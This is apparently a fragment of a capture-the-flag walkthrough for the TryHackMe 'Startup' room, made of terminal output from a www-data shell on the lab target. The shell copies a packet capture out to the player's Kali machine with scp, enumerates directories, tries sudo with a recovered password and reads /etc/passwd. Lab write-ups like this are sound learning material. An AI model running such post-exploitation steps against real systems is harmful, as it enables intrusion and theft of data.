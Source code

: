```
221 Goodbye.
```

```
www-data@startup:/$ cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
```

```
$ scp suspicious.pcapng kali@10.8.106.222:/home/kali/CTFs/tryhackme/Startup
Could not create directory '/var/www/.ssh'.
The authenticity of host '10.8.106.222 (10.8.106.222)' can't be established.
ECDSA key fingerprint is SHA256:xCE0Cpa4vJaXG1mwn7ciMO55E0R11HvAmXVl2ymdG+Y.
Are you sure you want to continue connecting (yes/no)? yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
kali@10.8.106.222's password:
suspicious.pcapng                             100%   30KB  30.5KB/s   00:00
www-data@startup:/incidents$
```

```
www-data@startup:/$ cd
cd
bash: cd: HOME not set
www-data@startup:/$ ls
ls
bin   etc	  initrd.img.old  media  recipe.txt  snap  usr	    vmlinuz.old
boot  home	  lib		  mnt	 root	     srv   vagrant
data  incidents   lib64		  opt	 run	     sys   var
dev   initrd.img  lost+found	  proc	 sbin	     tmp   vmlinuz
www-data@startup:/$ cd home
cd home
www-data@startup:/home$ cd lennie
cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ ls
ls
lennie
www-data@startup:/home$ cd lennie
cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ sudo -l
sudo -l
[sudo] password for www-data: c4ntg3t3n0ughsp1c3

Sorry, try again.
[sudo] password for www-data:

Sorry, try again.
[sudo] password for www-data: c4ntg3t3n0ughsp1c3

sudo: 3 incorrect password attempts
www-data@startup:/home$ cat /etc/passwd
```
